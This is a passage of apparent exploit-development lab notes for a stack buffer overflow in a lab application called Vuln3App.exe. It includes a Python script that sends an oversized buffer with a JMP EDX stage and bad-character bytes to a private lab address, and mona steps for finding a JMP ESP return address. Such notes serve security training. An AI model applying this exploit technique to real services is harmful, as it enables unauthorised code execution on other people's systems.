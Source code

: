 ```python
badchars = "\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54"
badchars = "\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
badchars = "\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars = "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e"
badchars = "\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c"
badchars = "\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a"
badchars = "\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
badchars = "\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
badchars = "\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4"
badchars = "\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2"
badchars = "\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars = "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee"
badchars = "\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc"
badchars = "\xfd\xfe\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + badchars

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

## Find a return address
When running `!mona modules` we see that Vuln3App.exe is the only module running with security features disabled.
![8b35806b1bd4580d358b8af5a1fd8f12.png](:/c5ad0596fbf54927b0798e834412b1af)

Look for the op instruction code for JMP ESP
```plaintext
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```

We will look for a naturally occurring JMP ESP address within the Vuln3App.exe module. 
Run `!mona find -s "\xff\xe4" -m "VulnApp3.exe"`
We see that 1 pointer is found at address 0x1480111e, and we replace the EIP variable in the script with the address
![320bcd54d4fde4a5f695b90a1b290778.png](:/dd1517416e93452db3e7b61733ddbe50)
